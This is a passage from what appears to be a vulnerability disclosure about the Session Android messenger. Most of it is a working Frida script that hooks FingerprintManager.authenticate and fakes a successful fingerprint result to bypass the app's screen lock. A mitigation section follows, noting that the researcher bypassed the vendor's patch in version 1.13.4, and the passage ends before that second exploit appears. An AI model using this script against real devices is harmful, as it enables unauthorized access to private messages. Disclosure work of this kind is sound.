 ## Exploit

```js
// exploit.js
const getAuthResult = (AuthenticationResult, crypto) => AuthenticationResult.$new(
    crypto, null, 0
);

const exploit = () => {
    console.log("[+] Hooking PassphrasePromptActivity - Method resumeScreenLock");
    const AuthenticationResult = Java.use(
        'android.hardware.fingerprint.FingerprintManager$AuthenticationResult'
    );
    const FingerprintManager  = Java.use(
        'android.hardware.fingerprint.FingerprintManager'
    );
    const CryptoObject = Java.use(
        'android.hardware.fingerprint.FingerprintManager$CryptoObject'
    );

    console.log("Hooking FingerprintManagerCompat.authenticate()...");
    const fingerprintManager_authenticate = FingerprintManager['authenticate'].overload(
        'android.hardware.fingerprint.FingerprintManager$CryptoObject',
        'android.os.CancellationSignal',
        'int',
        'android.hardware.fingerprint.FingerprintManager$AuthenticationCallback',
        'android.os.Handler'
    );

    fingerprintManager_authenticate.implementation = (
        crypto, cancel, flags, callback, handler) => {
        console.log("Bypass Lock Screen - Fingerprint");

        // We send a null cryptoObject to the listener of the fingerprint
        var crypto = CryptoObject.$new(null);
        var authenticationResult = getAuthResult(AuthenticationResult, crypto);
        callback.onAuthenticationSucceeded(authenticationResult);
        return this.authenticate(crypto, cancel, flags, callback, handler);
    }
}

Java.perform(() => exploit());
```

## Mitigation

### Bypass of the patch implemented at Session 1.13.4

After reporting the security flaw, the Session team implemented a [patch](https://github.com/oxen-io/session-android/commit/db92034a8a85ac33d42235e87f6fce9bc9738475).
However, I managed to bypass the patch using the following exploit:
